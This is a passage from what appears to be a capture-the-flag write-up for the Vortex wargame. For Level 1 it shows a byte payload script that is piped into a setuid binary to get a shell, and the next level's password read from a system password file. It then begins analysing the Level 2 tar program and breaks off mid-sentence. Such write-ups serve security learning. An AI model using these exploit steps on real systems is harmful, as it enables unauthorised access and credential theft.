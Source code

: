 ```asm
    0x08049333 <+256>:	lea    edx,[eax+0x1]
    0x08049336 <+259>:	mov    DWORD PTR [ebp-548],edx
    0x0804933c <+265>:	mov    edx,DWORD PTR [ebp-544]
    0x08049342 <+271>:	mov    BYTE PTR [eax],dl -> dl lowest byte of edx written in old ptr position
    0x08049344 <+273>:	nop
```

As obvious, one can create the below mentioned command:

```
# /tmp/tsosmi/vortex1_exp.sh: run with . /tmp/tsosmi/vortex1_exp.sh > /tmp/tsosmi/vortex1_exp
echo -ne "\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\x5c\xca\x41"
```

and send its output to the binary this way in order to obtain a shell and grab
the password for the next level: 

```
vortex1@gibson:~$ cat /tmp/tsosmi/vortex1_exp - | /vortex/vortex1 
whoami
vortex2
cat /etc/vortex_pass/vortex2 
WyEmn5wiX
```

### Level 2

The code for this level is shown below: 

```
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
```

The command /bin/tar is executed with specific arguments. The c flag indicates 
archive creation, while f specifies the archive name. The arguments argv[1], 
argv[2], and argv[3] represent the files to be included in the TAR archive.
What's interesting here is that the archive name includes an absolute path.
Although, in case someone checks the manpage for tar command, he/she can find
this: 
